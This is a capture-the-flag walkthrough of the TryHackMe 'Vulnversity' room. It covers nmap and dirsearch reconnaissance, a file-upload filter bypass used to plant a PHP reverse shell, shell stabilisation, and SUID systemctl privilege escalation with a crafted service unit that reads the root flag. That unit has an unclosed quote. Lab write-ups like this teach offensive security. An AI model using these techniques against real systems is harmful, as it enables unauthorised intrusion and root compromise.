









 
# TryHackMe Vulnversity Room Writeup

> Vinayak Chaturvedi

---
Complete Walkthrough [Vulnversity](https://tryhackme.com/room/vulnversity). 

###### Task 1(Deploy the Machine)
- Connect with the opvn of try hack me 
- Then start the machine.

###### Task 2(Reconnaissance )
Firstly start with scanning the machine IP with nmap. I am using the basic nmap command to do the reconnaissance:  

`nmap -sC -sV -A4 -T4 -Pn 10.10.109.165 `

- ***Enumeration***
```bash 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 15:44 IST
Nmap scan report for 10.10.109.165
Host is up (0.41s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=21%CT=1%CU=39277%PV=Y%DS=4%DC=T%G=Y%TM=611797D
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h21m41s, deviation: 2h18m34s, median: 1m40s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T06:17:13-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T10:17:14
|_  start_date: N/A
```

- So we can see there are 6 ports open; `21, 22, 139, 445, 3128, 3333`

- Due to running a service version scan (`-sV`) we can see the version of the squid proxy running on port 3128 i.e `3.5.12`

- The `-p-400` will run a scan on the first `400` ports 

- The `-n` will not resolve `DNS`
- 
- By the http banner we can see the system is running `Ubuntu`. 

- The web-server is running on `3333`
	


###### Task 3(Locating directories using Dirsearch)

For this we will use the tool `dirsearch`.

- dirsearch is a powerful and eassy tool to do the directory bruteforcing.

Download dirsearch [here](https://github.com/maurosoria/dirsearch), or if you're on Kali Linux run `git clone https://github.com/maurosoria/dirsearch.git`


- Let's start the directory listing. 

`python3 dirsearch.py -u 10.10.109.165:3333 -e html `

- We can see there is a `internal` directory found 
	-  
	- Navigating to this dir we can see there is a upload form
	- 

###### Task 4(Compromise the webserver)
- Let's see what we can do with it. At first we should see what files we are allowed upload. As usual I tried uploading a php file because there what we upload when we find an upload form, but it's not allowed  
	- 
	
- We can't upload any php file. If we do this manually it'll take unnecessary time & effort. Let's automate this process. First we have to check which extensions are allowed for uploading. For this we can use burp suite intruder to automate this.

- Capture the request using burp suite and send it to intruder. Locate the file name in the request body and select the extension of the file name and click add.

- Under payloads upload the extension.txt file with following extension included:

```bash
.php 
.php2 
.php3 
.php4 
.php5 
.phtml
```

- We can clearly see there is a 200 response code in .phtml . So .phtml extension is allowed to upload
	
- Now its a Rev-shell time. I'm using the following [reverse php shell exploit](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
	
- Now edit this exploit to our use by changing the ip with your tun0(vpn) ip. And save the file with .phtml extension.
   
- Success. Next setup a netcat listener & navigate to the file on the server.
	- 
	- 
	- 
- We got the shell but it's limited. We have to stabilize it.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

- We got the user flag. User is `Bill`
	- 

###### Task 5(Privilege Escalation)
- Now Privilege Escalation. As this task suggests we're gonna search for [SUID binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
- Search for SUID bits on the machine `find / -perm -u=s -type f 2>/dev/null`
- There is an unusual binary here
	- 
- [GTFO bins](https://gtfobins.github.io/#) is the goto for any kind of binary based Privilege Escalation.
	- 

- Change the path `/bin` and here make a `sh` file

```
sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

- You may have the root flag now.
